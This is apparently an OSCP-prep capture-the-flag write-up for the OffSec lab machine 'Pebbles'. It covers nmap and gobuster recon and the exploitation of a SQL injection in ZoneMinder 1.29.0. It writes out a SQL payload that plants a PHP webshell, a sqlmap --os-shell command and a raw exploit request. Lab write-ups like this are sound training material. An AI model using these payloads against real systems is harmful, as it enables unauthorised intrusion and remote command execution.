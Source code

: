 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Pebbles
tags: ["SQLi", "burpsuite", "ZoneMinder" ]
---
```

**Start 19:38 02-01-2025**

---
```
Scope:
192.168.115.52
```
## Recon

### Nmap

```bash
sudo nmap -sC -sV -oN nmap 192.168.115.52 -T5 -vvvv --min-rate=5000 -sT -p-

PORT     STATE SERVICE REASON  VERSION
21/tcp   open  ftp     syn-ack vsftpd 3.0.3
22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux;)
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Pebbles
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 7EC7ACEA6BB719ECE5FCE0009B57206B
|_http-server-header: Apache/2.4.18 (Ubuntu)
3305/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
8080/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-favicon: Apache Tomcat
|_http-title: Tomcat
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

There's 3 http ports open of which 3305 and 8080 are running an Apache and a Tomcat server  respectively.

On port 21 there's an FTP server that does *NOT* allow anonymous bind.

Let's check out port 80 for now.


## Initial Foothold

### 80/TCP - HTTP

I went to the website and found the following:

![](../../../assets/f8574b214fc823b7fe0b66d467a8d072.png)

I tried to log in with `admin - admin` but got nothing. This could point to a SQLi vulnerability but let's enumerate further.

### Gobuster

Meanwhile I did a directory search using `gobuster`:

![](../../../assets/c3fe69bcf70423f5738c1ff9ec26284a.png)

I extended my search using seclists and found a directory that I did not before.

![](../../../assets/83097cfa710ebb5ef436e88dad709d19.png)

I turned off the search and started checking the website:

![](../../../assets/993f1c4b3dcfc4ef39117e6e4a9d99bf.png)

It seems to be a **ZoneMinder 1.29.0** console, now that we have a version and service we can do some digging for PoC's.

![](../../../assets/88e54cf05dee566d49dd1ea6ee603af1.png)

My guess was partially correct, it does appear to be a SQLi exploit. Let's check it out.

![](../../../assets/6d9a4cad3bcf92e8611965e168e41357.png)

![](../../../assets/ef3a9a9f2fc35cc22f930f2cd9fbebf8.png)

Let's try to exploit it

### Burpsuite - Manual Exploitation

I went into burp and tried the ready made payload to test it out:

![](../../../assets/faa4ace971791fa9e2041fec4b949858.png)

it was indeed injectable so that was good. Now it was time to utilize this to give ourselves a webshell.

Since **port 3305** is running a default Apache web page, located in `/var/www/html` we could go ahead and put a webshell there:

```SQL
SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/webshell.php”
```

![](../../../assets/2cf75126a4b8444151b4476edee89545.png)

:::fail
This approach ultimately kept on failing for whatever reason and thus I decided to use SQLmap.
![](../../../assets/bd9a56d04016103736b3368305fa0593.png)
:::

### SQLmap - Automated Exploitation

I went ahead and launched `sqlmap` and let it do it's thing for a while:

```bash
sqlmap http://192.168.115.52/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --os-shell
```

:::note
Eventhough automated  SQL tools are *NOT* allowed on the exam, OffSec still encourages to use sqlmap for this machine.
:::

:::fail 
This also just kept on failing, I looked everywhere and could not understand why as everyone else just got a shell, but for me the `> os-shell` only kept returning `No output`.
:::

I then slightly modified the POST request and retested it and found out that this time it did work, the shell however is painfully slow.

```bash
POST /zm/index.php HTTP/1.1
Host: 192.168.196.52
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

view=request&request=log&task=query&limit=100&minTime=1466674406.084434
```

![](../../../assets/5cacf6f2ecbb80097bf10fbad50a20b3.png)

Because the shell was so painstakingly slow I tried to upload `nc` to get a reverse shell, however eventhough the upload worked it would not launch a reverse shell:

![](../../../assets/85d7c846bafdfec0d8646e2601d56ecd.png)

![](../../../assets/eef9be68cd80bac2bf9811679989b635.png)

![](../../../assets/4c2c48538f623059fc2927d48e55d1c6.png)

### proof.txt

So since this didn't work I just decided to use `cat /root/proof.txt` in order to get the flag.

![](../../../assets/81e3169a6097deff5d2d152cf6000d25.png)


:::summary
1) We found a **ZoneMinder** console of version 1.29.0 which was vulnerable to SQLi
2) We tried manually exploiting it with no luck
3) We also exploited it using `sqlmap` 
4) We were *NOT* able to get a reverse shell via `sqlmap` for unknown reasons
:::

---

**Finished 09:33 03-01-2025**

[^Links]: [[OSCP Prep]] 

